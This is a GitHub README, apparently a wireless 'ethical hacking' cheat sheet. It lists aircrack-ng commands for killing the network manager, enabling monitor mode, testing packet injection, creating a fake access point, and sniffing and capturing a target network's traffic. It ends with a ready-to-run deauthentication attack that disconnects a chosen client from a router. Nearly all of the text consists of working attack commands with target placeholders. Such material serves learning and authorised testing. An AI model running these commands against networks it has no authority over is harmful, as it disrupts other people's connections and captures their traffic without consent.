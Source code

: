 # These commands are works only on linux based OS system
## An external Network Adapter is required, Your Network Adapter must support `monitor mode`, `packet injection mode`

### Here my network interface name is `wlan1`, use these commands `iwconfig` or `ifconfig` to check your network interface name, your network interface name may be diffrent use accordingly.
## Table of Content
- [Network Manager Commands](https://github.com/ohm-vishwa/Ethical_Hacking?tab=readme-ov-file#network-manager-commands)
- [Network Adapter testing commands](https://github.com/ohm-vishwa/Ethical_Hacking?tab=readme-ov-file#network-adapter-testing-commands)
- [Packet Sniffing](https://github.com/ohm-vishwa/Ethical_Hacking?tab=readme-ov-file#packet-sniffing)
- [DE-Authentication Attack](https://github.com/ohm-vishwa/Ethical_Hacking?tab=readme-ov-file#de-authentication-attack)

First you need to switch root user `sudo su`

---
# Network Manager Commands
## Check Status of Network Manager
```
systemctl status NetworkManager
```
## kill network manager
```
airmon-ng check kill
```
## Enable Network Manager
```
service NetworkManager start
```
## Restart Network Manager
```
systemctl restart NetworkManager
```
---
# Network Adapter Testing Commands
## Enable Monitor Mode
```
airmon-ng start wlan1
```
## Disable Monitor Mode
```
airmon-ng stop wlan1
```
## Packet Injection test
```
aireplay-ng --test wlan1
```
## Creating Access Point Test
you can put any fake MAC Address like this `00:01:02:03:04:05`
```
airbase-ng -a 00:01:02:03:04:05 --essid "test_01" -c 11 wlan1
```
---
# Packet Sniffing
### sniff network around us `2.4 GHz`
```
airodump-ng wlan1
```
### sniff network Both `2.4 GHz and 5 GHz`
```
airodump-ng --band a wlan1
```
### capture data both `2.4 GHz and 5 GHz`
```
airodump-ng --band abg wlan1
```
### capture data into a file `fileName`
```
airodump-ng --bssid @1 --channel @2 --write fileName wlan1
```
@1 → `BSSID` of target

@2 → Channel no. of target

### open wireshark application to read captured data, captured in `fileName.cap`, 
```
wireshark
```
---
# DE-Authentication Attack
```
aireplay-ng --deauth @1 -a @2 -c @3 wlan1
```
@1 → no. of packets you want to send 

@2 → BSSID of router

@3 → MAC Address of the Client


